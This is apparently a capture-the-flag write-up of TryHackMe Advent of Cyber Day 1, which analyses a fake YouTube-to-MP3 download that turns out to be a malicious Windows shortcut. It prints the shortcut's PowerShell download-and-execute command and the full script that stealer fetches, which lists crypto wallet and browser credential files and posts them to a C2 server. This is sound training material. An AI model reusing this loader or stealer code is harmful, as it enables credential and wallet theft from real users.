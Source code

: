 # Advent of Cyber Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?
This task was dealing with OPSEC (Operational Security). You, as an investigator, have decided to dig into the YouTube-to-MP3 converter other SOC-mas organizers have been sharing.

## Why are we investigating the converter?
They can be used to deliver malicious software and be used for phishing credentials or other sensitive information. 

## Where to start?
1. Start the machine that was created for this challenge.
2. Navigate to the IP address generated if you are on the attack box. It will take you to the converter.
3. Using the link provided in the challenge https[:]//www[.]youtube[.]com/watch?v=dQw4w9WgXcQ which I have defanged is the YouTube video that have been suggested to use.
4. Choose either file extensions (it honestly doesn't matter which) and download the file and extract it.

## What to do next?
Navigate to where the file downloaded and run the `file` command like this `file song.{mp3|mp4}` This command out puts information on what the file "looks" like to the system. 

This is the "normal" file. As you can see it shows that it is in fact an `Audio file with ID3 version 2.3.0`.
![file_cmd_thm_aoc_d1](https://github.com/user-attachments/assets/17505b04-792a-4611-9115-489ce8b17ad4 "file command output from the THM AoC DayOne")

However, when you run the same `file` command on the other super sneaky downloaded "mp3" using `file somg.{mp3|mp4}` you get this:

![file_somg_thm_aoc_d1](https://github.com/user-attachments/assets/a3a1ef38-6c3a-4bbc-8d67-984f199c3b08 "file command output from the bad file")

You can see that the file is not a media file but a `MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments` aka `.lnk` file. This is malicious. 

### Let's inspect this malicious file (Question 1 can be answered by something in this output)

If you are using the TryHackMe machines, all the tools needed are alreay installed. If not, you'll want to install `exiftool` using your operating systems preferred install method.

Using the command `exiftool somg.{mp3|mp4}` you get this out put in your terminal:
```
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
```
Those are PowerShell (PS) commands. What they do are:
1. The `-ep Bypass -nop` flag disables the usual restrictions PS has and allows scripts (instructions in code) to run without interference.
2. The `DownloadFile` method downloads a file (a `IS.ps1` file) from the remote server `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1` and saves it in the `C:\\ProgramData\\ directory.
3. As soon as it is downloaded, the script gets executed in PowerShell using the `iex` command and triggers the downloaded `s.ps1` file.

**If you want you can look at the file, please don't use a windows device to do this as it will run and execute. Please don't bork your device.**

The file looks like this:
```
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

If you look through the file contents, theres something that is really interesting. It seems as though this file is ET and is phoning home to a C2 (command and control) server. The url answers question 2.

## Where did this come from and where does it go??
In the file you can see `Created by the one and only M.M.`, but who is that? You can search for that string on GitHub (GH) by using this url ` https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues`. If you get an error about rate limiting, you can either log in using your own GH account or try later. You can infer who M.M. is by the information on the comment that comes up (this answers question 3) and you can see how many times this repo has been committed to (this answers question 4). 

## Let's wrap this day up
Once you answer questions 1-4, the other two question are a given. If you want to, you can checkout the [OPSEC](https://tryhackme.com/r/room/opsec) room to learn more about it. 

# CONGRATULATIONS!!!!
You have finished Day 1 of TryHackMe's Advent of Cyber!!! 🎉🎉🎉🎉🎉🎉🎉🎉🎉


